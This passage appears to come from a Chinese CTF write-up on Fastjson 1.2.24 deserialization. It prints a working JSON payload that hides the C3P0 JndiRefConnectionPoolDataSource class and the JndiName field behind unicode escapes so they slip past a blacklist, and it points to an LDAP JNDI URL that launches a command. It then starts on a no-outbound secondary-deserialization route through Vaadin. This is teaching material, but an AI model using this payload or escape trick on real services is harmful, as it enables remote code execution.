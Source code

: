 [![](assets/1709282823-9619929d69768265648ac7af0aa3f69e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162711-5581e202-d6dc-1.png)

当然除了直接打 1.2.24 的 JNDI 也可以打 C3P0 的 JNDI，只是需要用 unicode 或者 16 进制去绕过即可

```bash
{"@type":"com.mchange.v2.c3p0.\u004a\u006e\u0064\u0069\u0052\u0065\u0066\u0043\u006f\u006e\u006e\u0065\u0063\u0074\u0069\u006f\u006e\u0050\u006f\u006f\u006c\u0044\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065","\u004a\u006e\u0064\u0069\u004e\u0061\u006d\u0065":"ldap://127.0.0.1:1389/Basic/Command/calc", "LoginTimeout":0}
```

[![](assets/1709282823-6bf1006a1603bdf2a2154f700caba53a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240229162722-5c17fcd2-d6dc-1.png)

### 不出网打二次反序列化

C3P0 打二次反序列化，可以看到该题存在 Vaadin 的依赖，所以可以通过 C3P0 打 Vaadin 的反序列化，但是由于他把`TemplatesImpl`​的 16 进制也给 ban 了，这样子我们就没办法用 C3P0 打二次反序列化来使用`TemplatesImpl`​加载字节码了
